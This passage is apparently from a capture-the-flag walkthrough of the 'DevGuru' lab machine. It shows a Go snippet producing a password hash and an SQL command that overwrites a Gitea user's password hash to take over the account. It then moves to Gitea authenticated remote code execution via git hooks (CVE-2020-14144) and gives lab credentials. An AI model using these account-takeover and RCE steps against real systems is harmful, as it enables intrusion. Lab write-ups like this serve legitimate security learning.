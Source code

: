 ```go
	fmt.Println(fmt.Sprintf("%x", tempPasswd))
}
```

Result : 399f18fb256de6ea2f4f61ec77ae3d3ded89d442e7372739c4eb6e8264091a00054a3ed4e0f95f257b91814cd603802bfd93


###### Update the gitea password hash

```sql
MariaDB [gitea]> UPDATE user SET passwd="399f18fb256de6ea2f4f61ec77ae3d3ded89d442e7372739c4eb6e8264091a00054a3ed4e0f95f257b91814cd603802bfd93" where passwd like "c200e%";  

Rows matched: 1  Changed: 1  Warnings: 0
```

![image]( /assets/img/devguru/10.PNG)


#### GiTea Authenticated Remote Code Execution using git hooks

Resource : https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/

URL => http://devguru.local:8585/
Credentials => frank:alienumattack2

![image]( /assets/img/devguru/11.PNG)

